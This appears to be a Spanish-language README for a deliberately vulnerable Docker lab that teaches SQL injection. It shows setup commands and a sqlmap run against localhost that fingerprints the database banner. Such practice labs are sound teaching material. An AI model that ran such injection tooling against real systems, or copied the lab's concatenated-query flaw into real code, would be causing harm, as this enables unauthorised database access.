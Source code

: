 # SQL Injection

Descargar y Montar el servidor con Docker:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
cd SQLInjection
sudo chmod a+rwx *
sudo docker-compose up
firefox localhost:8080
```

<hr>

Al tener las variables concatenadas puedes hacer inyeccion SQL:

```bash
sqlmap -u "http://127.0.0.1:8080/servidor.php?nombre=yo&mensaje=hola" -b

5.5.62-0ubuntu0.14.04.1-log
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.5.62-0ubuntu0.14.04.1-log'
```
